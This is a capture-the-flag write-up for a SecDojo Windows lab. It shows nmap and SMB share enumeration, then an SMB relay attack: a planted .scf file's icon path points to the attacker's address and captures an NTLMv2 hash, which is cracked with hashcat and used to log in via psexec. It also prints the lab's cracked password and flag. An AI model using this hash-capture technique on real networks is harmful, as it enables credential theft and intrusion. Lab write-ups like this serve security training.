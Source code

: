```yaml
---
title: "SecDojo - T4lk2m3 Lab"
author: [Sesco]
subtitle: "T0m Machine Write Up"
date: "2023-01-01"
keywords: [Windows, Security, CTF, Hacking]
lang: "en"
titlepage: true
titlepage-text-color: "FFFFFF"
titlepage-color: "243763"
titlepage-rule-color: "8ac53e"
...
```



# Information

- **Name:** T4lk2m3 Lab - T0m Machine
- **Profile:** SecDojo
- **Difficulty:** Medium
- **Description:** The "T4lk to m3" lab, contains two Microsoft Windows machines. To achieve access and obtain the Flags, you will have to conduct an SMB relay attack on those machines. One of those machines contains some SCF files. Learn how to use SCF files to grab juicy pieces of information.


# Enumeration

## Nmap

Initial nmap scan.

```console
$ nmap -Pn -sC -sV 172.16.4.179
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-01 15:40 UTC
Nmap scan report for 172.16.4.179
Host is up (0.00027s latency).
Not shown: 994 filtered tcp ports (no-response)
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Windows Server 2012 R2 Standard 9600 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
|_ssl-date: 2023-01-01T15:42:25+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=WIN-8EHFSR9B2UL
| Not valid before: 2022-12-31T15:36:07
|_Not valid after:  2023-07-02T15:36:07
| rdp-ntlm-info: 
|   Target_Name: WIN-8EHFSR9B2UL
|   NetBIOS_Domain_Name: WIN-8EHFSR9B2UL
|   NetBIOS_Computer_Name: WIN-8EHFSR9B2UL
|   DNS_Domain_Name: WIN-8EHFSR9B2UL
|   DNS_Computer_Name: WIN-8EHFSR9B2UL
|   Product_Version: 6.3.9600
|_  System_Time: 2023-01-01T15:41:45+00:00
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2023-01-01T15:41:45
|_  start_date: 2023-01-01T15:34:44
| smb2-security-mode: 
|   3.0.2: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: WIN-8EHFSR9B2UL, NetBIOS user: <unknown>, NetBIOS MAC: 06:0f:3a:c9:f1:64 (unknown)
| smb-os-discovery: 
|   OS: Windows Server 2012 R2 Standard 9600 (Windows Server 2012 R2 Standard 6.3)
|   OS CPE: cpe:/o:microsoft:windows_server_2012::-
|   Computer name: WIN-8EHFSR9B2UL
|   NetBIOS computer name: WIN-8EHFSR9B2UL\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-01-01T15:41:45+00:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 114.01 seconds
zsh: segmentation fault  nmap -Pn -sC -sV 172.16.4.179
```

Discovered couple of ports and services one of them is SMB port, let's check the available shares.

```console
$ nmap -Pn -p 445 --script smb-enum-shares 172.16.4.179
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-01 15:48 UTC
Nmap scan report for 172.16.4.179
Host is up (0.00031s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-enum-shares: 
|   account_used: guest
|   \\172.16.4.179\ADMIN$: 
|     Type: STYPE_DISKTREE_HIDDEN
|     Comment: Remote Admin
|     Anonymous access: <none>
|     Current user access: <none>
|   \\172.16.4.179\C$: 
|     Type: STYPE_DISKTREE_HIDDEN
|     Comment: Default share
|     Anonymous access: <none>
|     Current user access: <none>
|   \\172.16.4.179\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: Remote IPC
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\172.16.4.179\compta: 
|     Type: STYPE_DISKTREE
|     Comment: windows lab
|     Anonymous access: READ
|     Current user access: READ/WRITE
|   \\172.16.4.179\deepwin: 
|     Type: STYPE_DISKTREE
|     Comment: windows lab
|     Anonymous access: READ
|     Current user access: READ/WRITE
|   \\172.16.4.179\orga: 
|     Type: STYPE_DISKTREE
|     Comment: windows lab
|     Anonymous access: READ
|     Current user access: READ/WRITE
|   \\172.16.4.179\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Anonymous access: READ
|_    Current user access: READ
```

So there's seven available shares and it looks like the most suspicious shares are **compta**, **deepwin** and **orga** and they can be accessed anonymously.

One of the shares has a zip file, after downloading and unzipping the file I found another file **file.scf**.

![](./img-01.png)

```console
$ cat file.scf
[shell]
command=2
IconFile=\\172.31.31.144\\compta\\hacked.ico
[taskbar]
Command=ToogleDesktop
```

## Exploitation

Now this is interesting the .SCF file can be used in **SMB Relay Attack** and that's because of its nature and that is when you browse to a location that contains SCF file the IconFile will be retrieved automatically.

The SMB Relay Attack requires us to set [UNC](https://learn.microsoft.com/en-us/dotnet/standard/io/file-path-formats#:~:text=%3A%5CFY2018%5CFY2018-,UNC%20paths,well%20as%20v6%20are%20supported) path with our PWN machine IP address and in the PWN machine we'll try to listen and capture user's login credentials, and there's a module in metasploit that allow us to do that.

But before using the module we have to put our modified SCF file into the share and to do that we'll have to mount the share to one of our local folders, we can do that with this command.

```console
$ sudo mount.cifs //Attacker_IP_Adress/compta ./LocalFolder -o user=Anonymous,uid=$UID
```

```console
$ cat file.scf
[shell]
command=2
IconFile=\\Our_IP_Address\\compta\\hacked.ico
[taskbar]
Command=ToogleDesktop
```

All we have to do now is start listening and browse to the compta share with *smbclient* utility.

![](./img-02.png)

And that's our NTLMv2 hash for Administrator user which requires cracking, and so I did with hashcat utility.

```console
$ hashcat -m 5600 admin_ntlmv2 /usr/share/wordlists/rockyou.txt  -o cracked.txt
```

![](./img-03.png)

This is our password cracked **P@ssw0rd**, let's try and login to the windows machine using *psexec.py* utility.

![](./img-04.png)

That's it we are in.

## Root Flag

Proof of concept.

![](./img-05.png)

**Flag:** **`Tom_Sesco-68dzkyr35ix5gufsp0i3zttdm44e91y8`**